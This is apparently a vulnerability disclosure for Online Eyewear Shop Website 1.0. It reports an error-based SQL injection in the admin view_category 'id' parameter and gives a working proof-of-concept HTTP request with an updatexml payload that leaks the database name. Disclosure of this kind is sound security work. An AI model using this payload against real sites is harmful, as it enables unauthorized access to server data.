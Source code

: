 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
http://localhost/oews/admin/?page=categories/view_category&id=3

## Description:
Online Eyewear Shop Website1.0 has a SQL injection attack in view_category.php, and the attack parameter is id. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
GET /oews/admin/?page=categories/view_category&id=3%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=af5dsp386jat1uspen8v4e8hhq
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Get the database name directly through the error report: oews_db

![CleanShot 2024-09-20 at 16 38 19@2x](https://github.com/user-attachments/assets/f86a68cb-5553-486f-9430-e4a450115176)




